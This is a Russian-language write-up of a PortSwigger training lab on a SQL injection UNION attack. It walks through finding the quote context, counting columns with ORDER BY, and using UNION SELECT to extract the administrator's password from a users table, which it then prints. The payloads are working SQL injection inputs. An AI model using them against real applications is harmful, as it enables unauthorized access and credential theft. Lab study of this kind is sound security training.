 ```yaml
---
title: "SQL injection UNION attack retrieving data from other tables"
date: 2025-06-19
tags: [sqli, writeup]  
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-using-a-sql-injection-union-attack-to-retrieve-interesting-data/sql-injection/union-attacks/lab-retrieve-data-from-other-tables"
---
```


Пост из пака **union_sqli**.

## Scope

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. В БД есть таблицы с именам `users` и колонками `username` и `password`. Нужно получить информацию из БД, чтобы зайти в аккаунт `administrator`.


## Solution

Известно, что уязвимость находится в фильтре категорий, поэтому сразу возьму его.

```
https://0afe00cb0435e68b8132b15500ae0073.web-security-academy.net/filter?category=Pets
```

Нужно подобрать обрамление. Пусть запрос выглядит следующим образом:

```sql
SELECT * FROM table WHERE category = 'Pets'
```

Протестирую пейлоад:

```
Pets' and 0=1-- -
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-data-from-other-tables/1.png){: height="200" .align-center}

Страница пустая, значит для обрамления используются одинарные кавычки. Теперь узнаю количество полей в запросе с помощью `ORDER BY`:

```
Pets' ORDER BY 10-- -Error
Pets' ORDER BY 5-- -Error
Pets' ORDER BY 3-- -Error
Pets' ORDER BY 2-- -Ok
```

Значит в запросе 2 параметра. Использую `UNION`, чтобы отобразить данные:

```
Pets' and false UNION SELECT NULL, NULL-- -Ok
Pets' and false UNION SELECT 1, 2-- -Error
Pets' and false UNION SELECT '1', '2'-- -Ok
```

Теперь попробую добавить поля `username` и `password`:

```
Pets' and false UNION SELECT username, password FROM users WHERE username = 'administrator'-- -ok
```

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-data-from-other-tables/2.png){: height="200" .align-center}

Получил креды: `administrator`:`5j1o1b7ls5ltyvanoo42`. Зайду в аккаунт: 

![IMG](/assets/images/IMG_union_sqli/IMG_SQL-injection-UNION-attack-retrieving-data-from-other-tables/3.png){: height="200" .align-center}

Ну, все. Я получил власть...

